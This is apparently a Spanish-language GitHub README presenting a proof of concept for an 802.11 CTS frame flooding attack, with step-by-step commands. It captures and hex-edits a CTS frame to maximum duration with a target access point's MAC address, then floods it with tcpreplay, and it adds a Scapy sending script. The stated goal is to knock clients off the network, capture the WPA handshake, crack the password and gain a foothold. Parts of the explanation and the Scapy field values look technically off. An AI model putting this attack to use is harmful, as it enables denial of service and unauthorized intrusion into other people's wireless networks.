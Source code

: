 # WiFi 802.11: CTS Frame Attack

_Proof of Concept (PoC) que hice del proceso completo de un CTS Frame Attack con instrucciones paso a paso_

---

### Introducción

- Este ataque se basa en el secuestro de Bandwith (DataRate & Throughput) de la WLAN creando contención via Flooding de `CTS Frames` con su máximo `Duration`, esto genera un tipo de `DoS` en el WiFi. Esto puede generar comportamientos irregulares en la red, como deautenticar clientes. 

- El propósito es deautenticar clientes para al final capturar un 4-way-handshake (similar a un deauth attack) y así poder crackear el password e ingresar a la red, a partir de ahí se crea el foothold para post-exploit de red. 

Un ataque CTS frame es un tipo de ataque de red inalámbrica que busca explotar una vulnerabilidad en el protocolo de control `control frame 802.11 CTS (Clear to Send)` utilizado por el estándar de comunicación inalámbrica IEEE 802.11.

En este tipo de ataque, un atacante envía una gran cantidad de paquetes falsificados al dispositivo objetivo, cada uno de los cuales solicita una respuesta de tipo CTS. Al inundar al dispositivo objetivo con tantas solicitudes, el atacante puede abrumar su capacidad de respuesta, lo que puede provocar una caída en la conexión o retrasos en la comunicación.

El ataque CTS frame es una técnica de ataque de denegación de servicio (DoS) que tiene como objetivo interrumpir o interferir con la conexión inalámbrica de un dispositivo objetivo mediante la saturación de solicitudes falsificadas de tipo CTS.

---

### Instrucciones

Existen 2 files listos para la diversión:

1. [Fz3r0_CTS_808.pcap](https://github.com/Fz3r0/WiFi-CTS-Frame-Attack-802.11-Frame/blob/main/CTS-PCAPS/Fz3r0_CTS_808.pcap) - Este es un CTS raw capturado, sin modificar ni nada (excelente para hacer tampering de 0)
2. [Fz3r0_CTS_808_30000duration_attack.pcap](https://github.com/Fz3r0/WiFi-CTS-Frame-Attack-802.11-Frame/blob/main/CTS-PCAPS/Fz3r0_CTS_808_30000duration_attack.pcap) - Este esn un CTS ya modificado con el Duration en 30000 (máximo válido para un CTS)

Solo es necesario inyectarlo a la red en forma de flood al BSS que quieras atacar, por ejemplo:

```sh
tcpreplay --intf1=wlan0mon --topspeed --loop=2000 Fz3r0_CTS_808_30000duration_attack.pcap 2>/dev/null
```

- OJO!!! Hay que hacer modificación HEX para agregar la MAC/BSS de la WLAN a atacar

---

### PoC 

- Prove of Concept de ataque capturado en `pcapng`

[Ataqu-CTS-full-capturado-2devices.zip](https://github.com/Fz3r0/WiFi-CTS-Frame-Attack-802.11-Frame/files/11228557/Ataqu-CTS-full-capturado-2devices.zip)

Evidencias: 

- Nota: La manera más fácil de filtrarlos es buscando el BSS tanto en source y destination e identifical los EAPOL por el código de colores de `BlackShark`:

````java
wlan.addr == 30:45:96:d7:f2:3e
````

1. PC-1 - Handshake Capture

![image](https://user-images.githubusercontent.com/94720207/231935562-00b0eedc-1f31-463e-bd73-82cf725eab7e.png)

2. PC-2 - Handshake Capture

![image](https://user-images.githubusercontent.com/94720207/231935681-b6951a34-0aa4-43be-9831-feda10eac9fe.png)


```sh

## CTS = Clear To Send (Control Frames) Attack

    ## - Este ataque se basa en el secuestro de Bandwith (DataRate & Throughput) de la WLAN

    ## - El propósito es deautenticar clientes para al final capturar un handshake (similar a un deauth attack)

# INSTRUCCIONES:    

# 1. Monitorizar la red (ventana A + Save audit .cap) 

    # Ojo: no debe ser tan avanzado y auditoado realmente, solo quiero paturar el CTS, pero para tener ya toda la red para atacar desde un inicio :P (mas adelante necesito el BSS para inyectar el frame anyway)

airmon-ng check kill && airmon-ng start wlan0mon && airmon-ng check kill && airmon-ng start wlan0mon && airodump-ng -c 6 --bssid 30:45:96:D7:F2:3E --write Fz3r0_WiFi_Log wlan0

# 2. Ahora hay que crear, farmear o modificar... un Frame CTS con Duration (microsegundos) muy largo

#     - Lo extraigo de Wireshark farmeando cualquier cosa en la red o de una captura vieja 802.11

# Ejemplo: 

    # Escuchar con Wireshark y buscar CTS con:  >>> wlan.fc.type_subtype == 28 <<<

    # El lugar donde esta el duration en 802.11 frame > CTS > Flags > Duration (Hasta abajo) >>> wlan.duration <<<

    # Seleccionar el frame que quiera, y apuntar bien su Duration!!! p.e.: 556 (ss)

    # Wireshark > File > Export Specified packets > "Fz3r0_CTS_556.pcap"   REVISAR BIEN EXPORTAR "ONLY SELECTED" Y "PCAP (NO NEW GEN)"

# - Abrir ghex con el .pcap creado: 

ghex Fz3r0_CTS_808.pcap  

# - La mejor manera de revisar el duration es abrir ese mismo frame con wireshark y darle click y ya!!! tan facil

# - Las 2 veces que revisé era después del par 6 de derecha a izquierda: (00 2c)

###      0000   00 00 12 00 2e 48 00 00 00 30 85 09 c0 00 e1 01   .....H...0......
###      0010   00 00 c4 00 2c 02 24 11 45 37 8d f0               ....,.$.E7..
###                         -- --

# - Se puede comprobar con Python, por ejemplo:

     # 1 - Sacar el valor little indian (derecha izquierda en pares)

     # 2c 02 = 02 2c

     # 1- Comprobar con python en formato HEX: 0x2c00

# inicio consola python
python3

# En consola python
0x022c

    # Resultado, si fue igual a 556, entonces compruebo ese es el duration en hex

        # >>> 0x022c
        # 556

# 3. Ahora hay que modificar el frame para poner el máximo duration posible de un CTS (30000 ss) 
    
    # Esto va a crear contención artificial ;) 

# inicio consola python
python3

# En consola python
hex(30000)

    # Resultado = 0x7530 

        # >>> hex(30000)
        # '0x7530'

    # Little indian (reversa ahora) = 30 75

    # Entonces ahora el HEX quedaría así

###      0000   00 00 12 00 2e 48 00 00 00 30 85 09 c0 00 e1 01   .....H...0......
###      0010   00 00 c4 00 30 75 24 11 45 37 8d f0               ....,.$.E7..
###                         -- --

# En caso de haber cerrado ghex, volverlo a abrir 

ghex Fz3r0_CTS_808.pcap 

# 1. Modificación de Frame (solo dar doble click y modificar los 2 pares [30 75])

###      0000   00 00 12 00 2e 48 00 00 00 30 85 09 c0 00 e1 01   .....H...0......
###      0010   00 00 c4 00 30 75 24 11 45 37 8d f0               ....,.$.E7..
###                         -- --  

# 2. Modificar la MAC del BSS (AP) que quiero atacar 30:45:96:D7:F2:3E (si el primer frame se capturo de esa MAC entonces será la misma)

###      0000   00 00 12 00 2e 48 00 00 00 30 85 09 c0 00 e1 01   .....H...0......
###      0010   00 00 c4 00 30 75 30 45 96 D7 F2 3E               ....,.$.E7..
###                               -- -- -- -- -- -- 

# 3. Guardar el archivo como un nuevo .pcap (este puede servir en un futuro, solo se necesita cambiar el BSS ;))

    # Save As: Fz3r0_CTS_808_30000duration_attack.pcap

# 4. Validar con wireshark el frame y su duración

wireshark Fz3r0_CTS_808_30000duration_attack.pcap 

    # En mi caso ahora el duration y Receiver Address dice: 

    # Duration:          30000

    # Receiver Address:  30:45:96:D7:F2:3E

    # FCS: Ese puede que marque error pero el frame será válido (recordar que algunas interfaces no capturan FCS como la Panda)

# 2. Inyectar el Frame CTS modificado con TCP Replay  

    # -- topspeed (que lo haga al maximo de velocidad)

    # -- loop (cantidad de frames a enviar)

tcpreplay --intf1=wlan0mon --topspeed --loop=2000 Fz3r0_CTS_808_30000duration_attack.pcap 2>/dev/null

# Se puede validar con <<< wlan.duration == 30000 >>> y se verán los paquetes boom!!!

    # En este punto se pudieron haber ya deautenticado dispositivos en el BSS atacado

````

### Crear CTS con Scappy

````py

# aun no he logrado modificar el duration, pero esto lanza un CTS real ;) 

from scapy.all import *

type_field = 12
subtype_field = 12
FCfield_field = 0
ID_field = 0
addr1_field = "00:11:22:33:44:55"
addr2_field = "aa:bb:cc:dd:ee:ff"
addr3_field = "ff:ee:dd:cc:bb:aa"
SC_field = 0

pkt = RadioTap() / Dot11(type=type_field, subtype=subtype_field, FCfield=FCfield_field, ID=ID_field, addr1=addr1_field, addr2=addr2_field, addr3=addr3_field, SC=SC_field)

print(pkt.summary())

# Enviar el paquete creado
sendp(pkt, iface="wlan0mon", count=1)

````

---

### Ejemplo de ghex como quedaría el tamper al final: 

![image](https://user-images.githubusercontent.com/94720207/231923676-45c90520-c7fe-41e2-928e-d164a2bd3afc.png)

